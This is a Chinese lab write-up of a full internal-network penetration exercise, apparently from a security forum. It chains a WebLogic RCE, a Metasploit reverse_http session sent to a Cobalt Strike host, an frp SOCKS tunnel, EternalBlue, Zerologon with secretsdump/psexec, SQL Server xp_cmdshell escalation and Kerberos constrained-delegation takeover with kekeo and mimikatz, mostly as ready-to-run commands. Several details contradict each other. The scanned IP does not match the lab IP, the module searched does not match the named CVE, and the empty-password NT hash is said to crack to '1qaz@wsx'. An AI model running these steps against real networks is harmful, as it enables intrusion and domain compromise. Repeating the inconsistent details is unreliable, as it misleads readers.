# 记一次完整的内网渗透实操-先知社区

> **来源**: https://xz.aliyun.com/news/18359  
> **文章ID**: 18359

---

# 记一次内网靶场实战

## 一、环境搭建

本次内网靶场环境包含多种关键角色的机器，具体配置如下：

* **web 服务器**：外网 IP 为 [192.168.3.80](http://192.168.3.80)，内网 IP 为 [10.10.10.80](http://10.10.10.80)，承担对外提供服务与内网数据交互的角色。
* **域内机器 win7**：外网 IP 是 [192.168.3.201](http://192.168.3.201)，内网 IP 为 [10.10.10.201](http://10.10.10.201)，作为域内普通客户端。
* **域内服务器 Mssql**：仅配置内网 IP [10.10.10.80](http://10.10.10.80)，负责数据库相关服务。
* **域控机器**：内网 IP 为 [10.10.10.10](http://10.10.10.10)，是整个域环境的核心管理设备。

## 二、外网渗透

### （一）端口扫描与目录扫描

搭建好环境后，使用专业扫描工具对目标 [192.168.0.100](http://192.168.0.100) 进行端口扫描探测，初步掌握目标开放的端口情况。发现目标开放 7001 端口后，进一步执行目录扫描，成功探测到 weblogic 登录口。这一步为后续漏洞利用明确了方向，weblogic 作为常见的中间件，存在多种已知漏洞可被利用。





### （二）weblogic 漏洞利用

尝试使用常见的弱口令登录 weblogic 失败后，借助 weblogic 漏洞利用工具进行深入检测，发现目标存在 CVE-2020-2551 漏洞。该漏洞属于远程代码执行类型，攻击者可利用它在目标服务器上执行任意代码，从而获取服务器控制权。







### （三）出网探测与杀软识别

为确保后续攻击操作的可行性，进行出网探测，发现目标机器能够 ping 通[www.baidu.com](https://www.baidu.com)，表明目标具备出网能力。同时，通过执行 tasklist /svc 命令，确认主机上未安装杀毒软件，减少了后续植入恶意程序时被查杀的风险。







### （四）获取 shell 与反弹

利用 msf（Metasploit）结合上述漏洞获取目标 shell，并将其反弹至 cs（Cobalt Strike）。具体操作如下：

1. 使用 search CVE-2019-2725 命令在 msf 中搜索相关漏洞模块。
2. 执行 use exploit/windows/local/payload\_inject 命令，选择本地 payload 注入模块。
3. 设置 payload 为 windows/meterpreter/reverse\_http，指定反弹的 payload 类型。
4. 设置 LHOST 为 cs 主机地址 [103.234.72.5](http://103.234.72.5)，LPORT 为 84（需与 cs 监听端口保持一致）。
5. 设置 session 为 2，指定需要派送的 meterpreter 会话。
6. 设置 DisablePayloadHandler true，禁止产生新的 handler，避免干扰。





## 三、提权上线与内网渗透

### （一）信息搜集与密码凭据抓取

成功获取 shell 后，执行相关命令进行信息搜集，发现目标存在双网卡，这意味着目标可能处于多个网络环境，增加了内网渗透的复杂性与可能性。通过 hashdump 命令抓取密码，得到 de1ay 的 hash 值为 aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0，利用 cmd5 网站成功解出明文密码 1qaz@wsx。



### （二）横向移动

虽然获取了明文密码，但在真实环境中，直接远程登录存在较高风险，因此选择其他横向移动方法。上传 fscan 工具扫描 10 网段，发现 [10.10.20.7](http://10.10.20.7) 主机存在 ms17-010 漏洞，也可使用 cs 自带的 portscan 进行扫描。此外，尝试使用 mimikatz 跑域管密码，为进一步渗透域环境做准备。





### （三）隧道搭建与攻击

因目标机器网络限制，上传 frp 搭建隧道代理，配置 frpc 和 frps 如下：

```
[common]
server_addr = VPS地址
server_port = 7000
[plugin_socks]
type = tcp
remote_port = 1080
plugin = socks5
[common]
bind_addr = 0.0.0.0
bind_port = 7000
```

通过修改 proxychains.conf 配置文件为 socks5 [127.0.0.1](http://127.0.0.1) 1080，并使用 proxychains msfconsole 启动 msf。调用永恒之蓝模块 exploit/windows/smb/ms17\_010\_eternalblue 进行攻击，成功获取目标 shell，具体操作如下：

```
msf6 > setg Proxies socks5:frps服务端IP:监听端口
msf6 > setg ReverseAllowProxy true
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set payload windows/x64/meterpreter/bind_tcp
msf6 > set rhost 10.10.20.7
msf6 > run
```





### （四）中转上线与内网扫描

由于目标机器 win7 不出网，以跳板机器作为中转，新建监听器，使用 psexec 进行上线操作。上线后，执行内网扫描，探测到存活主机 [10.10.10.8](http://10.10.10.8) 和 [10.10.10.18](http://10.10.10.18)。通过 net user /domain 命令确认当前机器处于域环境内，再使用 net group "domain controllers" /domain 命令定位到域控，通常情况下，DNS 服务器即为域控。







## 四、域控攻击

### （一）CVE-2020-1472 漏洞利用

CVE-2020-1472 漏洞影响多个版本的 Windows Server 系统，具体如下：

* Windows Server 2008 R2 for x64-based Systems Service Pack 1
* Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)
* Windows Server 2012
* Windows Server 2012 (Server Core installation)
* Windows Server 2012 R2
* Windows Server 2012 R2 (Server Core installation)
* Windows Server 2016
* Windows Server 2016 (Server Core installation)
* Windows Server 2019
* Windows Server 2019 (Server Core installation)
* Windows Server, version 1903 (Server Core installation)
* Windows Server, version 1909 (Server Core installation)
* Windows Server, version 2004 (Server Core installation)

利用该漏洞的具体步骤如下：

1. 重置管理员密钥，进行置空：python3 cve-2020-1472-exploit.pyOWA [10.10.10.8](http://10.10.10.8)
2. 通过 Dcsync 查看密码 hash：python [secretsdump.py](http://secretsdump.py) redteam.red/OWA$@[10.10.10.8](http://10.10.10.8) -just-dc -no-pass
3. 通过 psexec 和 hash 获取 shell：python [psexec.py](http://psexec.py) administrator@[10.10.10.8](http://10.10.10.8) -hashes aad3b435b51404eeaad3b435b51404ee:ccef208c6485269c20db2cad21734fe7
4. 使用 secretsdump 解析保存在本地的 nt hash：

```
reg save HKLM\SAM sam.save  
reg save HKLM\SYSTEM system.save  
reg save HKLM\SECURITY security.save
python3 secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

1. 通过 reinstall 脚本将 $MACHINE.ACC:plain\_password\_hex 中的原来 nt hash 恢复：python [reinstall\_original\_pw.py](http://reinstall_original_pw.py) OWA [10.10.10.8](http://10.10.10.8) 8623dc75ede3ca9ec11f2475b12ef96d





### （二）约束委派接管域控

1. 使用 adfind 寻找约束委派的用户，发现 sqlserver 的机器：AdFind.exe -h [10.10.10.8](http://10.10.10.8) -u saul -up admin!@#45 -b "DC=redteam,DC=red" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=\*))" cn distinguishedName msds-allowedtodelegateto
2. 通过端口探测确定 sqlserver 为 [10.10.10.18](http://10.10.10.18) 机器。
3. 使用 fscan 扫描，发现 sqlserver 存在弱口令 sa/sa。
4. 使用 SharpSQLTools.exe 查看当前权限：SharpSQLTools.exe [10.10.10.18](http://10.10.10.18) sa sa master xp\_cmdshell whoami
5. 权限较低，执行以下命令进行提权：

```
SharpSQLTools.exe 10.10.10.18 sa sa master install_clr whoami
SharpSQLTools.exe 10.10.10.18 sa sa master enable_clr
SharpSQLTools.exe 10.10.10.18 sa sa master clr_efspotato whoami
```





1. 上线 CS 并抓到 sqlserver 的密码 redteam\sqlserver:Server12345。





根据前期信息，sqlserver 是约束委派用户，利用 kekeo、mimikatz 等工具通过以下步骤





接管域控：

1. 利用 kekeo 请求该用户的 TGT：kekeo.exe "tgt::ask /user:sqlserver /domain:redteam.red/password:Server12345 /ticket:administrator.kirbi"
2. 使用 TGT 获取域机器的 ST：kekeo.exe "tgs::s4u /tgt:TGT\_sqlserver@REDTEAM.RED\_krbtgt~redteam.red@REDTEAM.RED.kirbi/user:Administrator@redteam.red/service:cifs/owa.redteam.red"
3. 使用 mimikatz 将 ST 导入当前会话，运行 mimikatz 进行 ptt：mimikatz kerberos::ptt TGS\_Administrator@redteam.red@REDTEAM.RED\_cifs~owa.redteam.red@REDTEAM.RED.kirbi
4. 成功获取域控权限。




